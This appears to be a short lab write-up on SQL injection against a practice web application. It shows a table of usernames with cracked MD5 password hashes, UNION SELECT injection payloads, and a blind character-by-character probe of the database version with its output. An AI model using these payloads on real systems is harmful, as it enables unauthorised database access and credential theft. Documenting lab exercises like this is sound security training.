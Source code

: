 decrypt md5 hash

user    | md5 hash                         | password
------- | -------------------------------- | --------
admin   | 5f4dcc3b5aa765d61d8327deb882cf99 | password
gordonb | e99a18c428cb38d5f260853678922e03 | abc123
1337    | 8d3533d75ae2c3966d7e0d4fcc69216b | charley
pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein
smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 | password

input SQLi

```bash
' UNION SELECT version(), ' 
```

output

![alt text](images/photo_4.png)

input SQLi for prediction version of db

```bash
' UNION SELECT version() LIKE '1%', '
```

output of prediction

```
ID: ' UNION SELECT version() LIKE '0%', '
First name: 0
Surname: 

ID: ' UNION SELECT version() LIKE '1%', '
First name: 1
Surname: 

ID: ' UNION SELECT version() LIKE '2%', '
First name: 0
Surname: 

ID: ' UNION SELECT version() LIKE '10%', '
First name: 1
Surname: 

ID: ' UNION SELECT version() LIKE '11%', '
First name: 0
Surname: 

ID: ' UNION SELECT version() LIKE '100%', '
First name: 0
Surname: 

ID: ' UNION SELECT version() LIKE '10.%', '
First name: 1
Surname: 

ID: ' UNION SELECT version() LIKE '10.0%', '
First name: 0
```